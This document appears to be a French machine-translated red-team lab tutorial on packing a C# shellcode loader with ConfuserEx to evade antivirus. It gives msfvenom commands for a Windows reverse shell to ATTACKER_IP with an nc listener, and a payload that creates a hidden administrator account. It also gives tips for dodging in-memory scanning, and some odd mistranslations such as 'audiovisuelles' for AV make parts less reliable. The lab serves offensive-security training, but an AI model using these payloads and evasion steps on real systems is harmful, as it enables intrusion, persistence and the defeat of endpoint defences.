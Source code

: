Une autre méthode pour vaincre la détection AV sur disque consiste à utiliser un packer. Les packers sont des logiciels qui prennent un programme en entrée et le transforment pour que sa structure soit différente, mais que leurs fonctionnalités restent exactement les mêmes. Les emballeurs le font avec deux objectifs principaux en tête :

-   Compressez le programme pour qu'il prenne moins de place.
-   Protégez le programme de l'ingénierie inverse en général.

Les packers sont couramment utilisés par les développeurs de logiciels qui souhaitent protéger leurs logiciels contre l'ingénierie inverse ou le piratage. Ils atteignent un certain niveau de protection en implémentant un mélange de transformations incluant la compression, le chiffrement, l'ajout de protections contre le débogage et bien d'autres. Comme vous l'avez peut-être déjà deviné, les packers sont également couramment utilisés pour masquer les logiciels malveillants sans trop d'effort.

Il existe un grand nombre de conditionneurs, notamment UPX, MPRESS, Themida et bien d'autres.

## Emballage d'une application

Bien que chaque emballeur fonctionne différemment, regardons un exemple de base de ce que ferait un simple emballeur.

Lorsqu'une application est compressée, elle sera transformée d'une manière ou d'une autre à l'aide d'une fonction de compression . La fonction d'empaquetage doit être capable de masquer et de transformer le code d'origine de l'application de manière à pouvoir être raisonnablement inversée par une fonction de décompression afin que la fonctionnalité d'origine de l'application soit préservée. Bien que parfois le packer puisse ajouter du code (pour rendre le débogage de l'application plus difficile, par exemple), il souhaitera généralement pouvoir récupérer le code original que vous avez écrit lors de son exécution.

![9aacb2fab2a656ffc82a7b0344918062](https://github.com/dsgsec/Red-Team/assets/82456829/99d98153-3e09-4858-8499-e076d24222ad)


La version compressée de l'application contiendra votre code d'application compressé. Étant donné que ce nouveau code compressé est masqué, l'application doit pouvoir en décompresser le code d'origine. À cette fin, le packer intégrera un stub de code contenant un décompresseur et y redirigera le point d'entrée principal de l'exécutable.

Lorsque votre application compressée est exécutée, les événements suivants se produisent :

![408fb909374c2b54bebef9809eaa417a](https://github.com/dsgsec/Red-Team/assets/82456829/29d547f4-7a40-40a4-b230-0a923811bff1)


1.  Le décompresseur est exécuté en premier, car il constitue le point d'entrée de l'exécutable.
2.  Le décompresseur lit le code de l'application compressée.
3.  Le décompresseur écrira le code décompressé d'origine quelque part en mémoire et y dirigera le flux d'exécution de l'application.

Packers et AV

Nous pouvons désormais voir comment les packers aident à contourner les solutions audiovisuelles . Disons que vous avez créé un exécutable shell inversé, mais que l'antivirus le détecte comme malveillant car il correspond à une signature connue. Dans ce cas, l'utilisation d'un packer transformera l'exécutable du shell inversé afin qu'il ne corresponde à aucune signature connue sur le disque. En conséquence, vous devriez pouvoir distribuer votre charge utile sur le disque de n'importe quelle machine sans trop de problème.

Cependant, les solutions audiovisuelles peuvent toujours intercepter votre application compressée pour plusieurs raisons :

-   Bien que votre code d'origine puisse être transformé en quelque chose de méconnaissable, n'oubliez pas que l'exécutable compressé contient un stub avec le code du décompresseur. Si le décompresseur a une signature connue, les solutions antivirus peuvent toujours signaler tout exécutable compressé en se basant uniquement sur le stub du décompresseur.
-   À un moment donné, votre application décompressera le code original en mémoire afin qu'il puisse être exécuté. Si la solution antivirus que vous essayez de contourner peut effectuer des analyses en mémoire, vous pourriez toujours être détecté une fois votre code décompressé.

Emballer notre shellcode

Commençons par un shellcode C# de base. Vous pouvez également trouver ce code sur votre machine Windows à l'adresse`C:\Tools\CS Files\UnEncStagelessPayload.cs` :

*Code de charge utile complet (cliquez pour lire)*

Cette charge utile prend un shellcode généré par msfvenom et l'exécute dans un thread séparé. Pour que cela fonctionne, vous devrez générer un nouveau shellcode et le mettre dans la `shellcode`variable du code :

Invite de commande

```
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

Vous pouvez ensuite compiler votre charge utile sur la machine Windows à l'aide de la commande suivante :

Invite de commande

```
C:\> csc UnEncStagelessPayload.cs
```

Une fois que vous disposez d'un exécutable fonctionnel, vous pouvez essayer de le télécharger sur THM Antivirus Check ! page (lien sur le bureau). Il doit être signalé immédiatement par l' AV . Utilisons un packer sur la même charge utile et voyons ce qui se passe.

Nous utiliserons le packer [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) pour cette tâche, car nos charges utiles sont programmées sur `.NET`. Pour votre commodité, vous pouvez trouver un raccourci sur votre bureau.

ConfuserEx vous demandera d'indiquer les dossiers dans lesquels il fonctionnera. Assurez-vous de sélectionner votre bureau comme répertoire de base, comme indiqué dans l'image ci-dessous. Une fois le répertoire de base configuré, faites glisser et déposez l'exécutable que vous souhaitez compresser sur l'interface, et vous devriez vous retrouver avec ce qui suit :

![9214df2a88ffffbf8561502aa19a375c](https://github.com/dsgsec/Red-Team/assets/82456829/7439789b-fa3d-4221-b3b1-757054b8f62f)

Allons dans l'onglet Paramètres et sélectionnons notre charge utile. Une fois sélectionné, appuyez sur le bouton « + » pour ajouter des paramètres à votre charge utile. Cela devrait créer une règle nommée « true ». Assurez-vous également d'activer la compression :

![857e5540e14f4ebf743fbd4d2f8ee503](https://github.com/dsgsec/Red-Team/assets/82456829/d7693531-4aeb-4ac7-a8a6-db513c916e45)

Nous allons maintenant éditer la « vraie » règle et la définir sur le préréglage Maximum :

![96946f1aff585a91e78408b96e446ea4](https://github.com/dsgsec/Red-Team/assets/82456829/c8d7f693-de7e-4ed9-80fe-29e68e68b80a)

Enfin, nous passerons à l'onglet « Protéger ! » et cliquez sur "Protéger" :

![e0e3ca97245641d3954f26fa986aae87](https://github.com/dsgsec/Red-Team/assets/82456829/182fea07-ffc7-4de1-9326-1363ff124f60)

La nouvelle charge utile devrait être prête et, espérons-le, ne déclenchera aucune alarme une fois téléchargée sur THM Antivirus Checker ! (raccourci disponible sur votre bureau). En fait, si vous exécutez votre charge utile et configurez un `nc`écouteur, vous devriez pouvoir récupérer un shell :

Boîte d'attaque

```
user@attackbox$ nc -lvp 7478
```

Jusqu'ici, tout va bien, mais rappelez-vous que nous avons parlé des antivirus effectuant une analyse en mémoire ? Si vous essayez d'exécuter une commande sur votre shell inversé, l'AV remarquera votre shell et le tuera. En effet, Windows Defender interceptera certains appels d'API Windows et effectuera une analyse en mémoire chaque fois que de tels appels d'API sont utilisés. Dans le cas d'un shell généré avec msfvenom, CreateProcess() sera invoqué et détecté.

Donc que faisons-nous maintenant?

Bien que l'échec de l'analyse en mémoire dépasse le cadre de cette salle, vous pouvez prendre quelques mesures simples pour éviter la détection :

-   Attendez juste un peu . Essayez à nouveau de générer le shell inversé et attendez environ 5 minutes avant d'envoyer une commande. Vous verrez que l' AV ne se plaindra plus. La raison en est que l'analyse de la mémoire est une opération coûteuse. Par conséquent, l'AV le fera pendant un certain temps après le démarrage de votre processus, mais finira par s'arrêter.
-   Utilisez des charges utiles plus petites . Plus la charge utile est petite, moins elle a de chances d'être détectée. Si vous utilisez msfvenom pour exécuter une seule commande au lieu d'un shell inversé, l' AV aura plus de mal à la détecter. Vous pouvez essayer avec`msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp` et voir ce qui se passe.

Si la détection ne pose pas de problème, vous pouvez même utiliser une astuce simple. Depuis votre shell inversé, réexécutez `cmd.exe`. L' AV détectera votre charge utile et tuera le processus associé, mais pas le nouveau cmd.exe que vous venez de générer.

Bien que chaque AV se comporte différemment, la plupart du temps, il y aura une manière similaire de les contourner, il vaut donc la peine d'explorer tous les comportements étranges que vous remarquez lors des tests.
